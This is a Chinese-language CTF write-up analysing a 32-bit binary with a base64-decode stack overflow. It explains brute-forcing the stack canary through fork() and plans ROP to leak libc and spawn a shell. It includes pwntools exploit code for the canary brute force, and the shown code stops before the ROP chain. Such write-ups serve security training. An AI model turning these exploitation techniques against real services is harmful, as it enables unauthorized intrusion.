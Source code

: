 main函数：

![image-20220201115234778](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-9d97762b70288043216ba65020ef8f5d553a264b.png)

跟进sub\_8048B29()，

![image-20220201115725938](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-2069c2ecf641f3e1a7eba604328b8f95237e1552.png)

继续跟进，

![image-20220201115406337](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-faaa5074dd85e1001a2631767c650c001bc68e23.png)

分析可以知道这里就是base64解密算法：

![image-20220201115553138](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-7b70cf33b3eb32be9ab88d5d417c4ea26c4f7f9a.png)

找到输入点，可以看到最大可以输入0x200（512）字节的数据，对于输入格式的要求是能够进行base64解码：

![image-20220201115815546](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3541973858a5b24c6839e16a3ef04bd1dc4dd6f2.png)

##### 思路：

base64解码的结果存入char数组v21\[257\],base64解码之后的数据大小大概是原来的3/4，足够造成栈溢出了。本题难点在于canary，由于程序通过 `fork()` 创建子进程，所以想到了爆破canary，这是个32位的程序，所以canary有4个字节，最低位一定是\\x00，所以只需要爆破三个字节即可。

**爆破代码：**

```php
canary = '\x00'
p.recvuntil('May be I can know if you give me some data[Y/N]\n')
for i in xrange(3):
    for j in xrange(256):
        p.send('Y\n')
        p.send(b64encode('a'*257+ canary + chr(j)))
        recv =p.recvuntil('May be I can know if you give me some data[Y/N]\n')
        if 'Finish' in recv:
            canary += chr(j)
            break
print 'find canary:'+canary.encode('hex')
```

得到canary后，再次返回输入处，构造ROP泄露libc基址，最后再回到一次输入处，构造ROP来getshell。

##### EXP：

```python
from pwn import *
from base64 import *
context.log_level = 'debug'
p = process('./pwns')
elf = ELF('pwns')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
vulc_addr = 0x080487E6

# brute
canary = '\x00'
p.recvuntil('May be I can know if you give me some data[Y/N]\n')
for i in range(3):
    for j in range(256):
        p.send('Y\n')
        p.send(b64encode('a'*257+ canary + chr(j)))
        recv =p.recvuntil('May be I can know if you give me some data[Y/N]\n')
        if 'Finish' in recv:
            canary += chr(j)
            break
success('find canary:' + canary.encode('hex'))
```